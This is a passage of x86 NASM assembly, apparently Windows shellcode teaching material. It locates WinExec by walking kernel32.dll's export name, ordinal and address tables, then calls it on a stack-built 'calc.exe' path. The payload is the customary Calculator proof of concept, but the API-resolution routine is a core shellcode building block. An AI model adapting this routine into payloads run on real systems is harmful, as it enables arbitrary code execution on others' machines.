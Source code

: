 ```nasm
	mov [ebp-0Ch], ecx 		; var12 = Address of Ordinal Table

	mov edi, [eax + 20h] 		; RVA of Name Pointer Table
	add edi, ebx 			; Address of Name Pointer Table
	mov [ebp-10h], edi 		; var16 = Address of Name Pointer Table

	mov edx, [eax + 1Ch] 		; RVA of Address Table
	add edx, ebx 			; Address of Address Table
	mov [ebp-14h], edx 		; var20 = Address of Address Table

	mov edx, [eax + 14h] 		; Number of exported functions

	xor eax, eax 			; counter = 0

	.loop:
	        mov edi, [ebp-10h] 	; edi = var16 = Address of Name Pointer Table
	        mov esi, [ebp-4] 	; esi = var4 = "WinExec\x00"
	        xor ecx, ecx

	        cld  			; set DF=0 => process strings from left to right
	        mov edi, [edi + eax*4]	; Entries in Name Pointer Table are 4 bytes long
	        			; edi = RVA Nth entry = Address of Name Table * 4
	        add edi, ebx       	; edi = address of string = base address + RVA Nth entry
	        add cx, 8 		; Length of strings to compare (len('WinExec') = 8)
	        repe cmpsb        	; Compare the first 8 bytes of strings in 
	        			; esi and edi registers. ZF=1 if equal, ZF=0 if not
	        jz start.found

	        inc eax 		; counter++
	        cmp eax, edx    	; check if last function is reached
	        jb start.loop 		; if not the last -> loop

	        add esp, 26h      		
	        jmp start.end 		; if function is not found, jump to end

	.found:
		; the counter (eax) now holds the position of WinExec

	        mov ecx, [ebp-0Ch]	; ecx = var12 = Address of Ordinal Table
	        mov edx, [ebp-14h]  	; edx = var20 = Address of Address Table

	        mov ax, [ecx + eax*2] 	; ax = ordinal number = var12 + (counter * 2)
	        mov eax, [edx + eax*4] 	; eax = RVA of function = var20 + (ordinal * 4)
	        add eax, ebx 		; eax = address of WinExec = 
	        			; = kernel32.dll base address + RVA of WinExec

	        xor edx, edx
		push edx		; null termination
		push 6578652eh
		push 636c6163h
		push 5c32336dh
		push 65747379h
		push 535c7377h
		push 6f646e69h
		push 575c3a43h
		mov esi, esp		; esi -> "C:\Windows\System32\calc.exe"

		push 10  		; window state SW_SHOWDEFAULT
		push esi 		; "C:\Windows\System32\calc.exe"
		call eax 		; WinExec

		add esp, 46h		; clear the stack

```